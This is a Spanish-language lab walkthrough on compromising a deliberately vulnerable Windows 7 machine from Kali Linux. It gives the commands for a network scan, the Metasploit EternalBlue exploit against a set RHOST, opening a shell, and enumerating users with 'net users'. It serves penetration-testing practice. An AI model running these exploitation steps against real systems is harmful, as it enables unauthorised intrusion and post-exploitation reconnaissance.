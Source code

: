 # Enumeración de Usuarios en Sistemas Windows

Maquinas que vamos a utilizar Kali Linux y Windows 7 Vulnerable [https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view)

vamos a conocer el funcionamiento del comando **net users** para poder ver los usuarios existentes dentro de un sistema Windows, de tal forma que podremos, lo cual nos brindará mucha información para continuar con la post-explotación

- Vamos a Comprometer una maquina Windows 7 con Metasploit aprovechando la vulnerabilidad  Eternal Blue
    
    
    ```bash
    sudo arp-scan -I eth0 --localnet
    ```
    
    ![image.png](./imagenes/image%20106.png)
    
- Lanzamos Metaesploit y buscamos eternalblue
    
    `search eternalblue`
    
    ![image.png](./imagenes/image%20107.png)
    

- Escogemos el exploit 0
    
    `use 0`
    
    ![image.png](./imagenes/image%20108.png)
    
- Hacemos un show options y rellenamos lo que necesitemos y ejecutamos
    
    `show options`
    
    `set RHOST 10.0.3.6`
    
    `run`
    
    ![image.png](./imagenes/image%20109.png)
    
- Nos pasamos a una shell dentro de Windows
    
    `shell`
    
    ![image.png](./imagenes/image%20110.png)
    

- Vamos a probar comando **net user** que no se puede ejecutar cuando estamos en meterpreter:
    - `net users`
        
        ![image.png](./imagenes/image%20111.png)
        
        Vemos que tenemos tres usuarios , **administrador, Invitado y Mario**.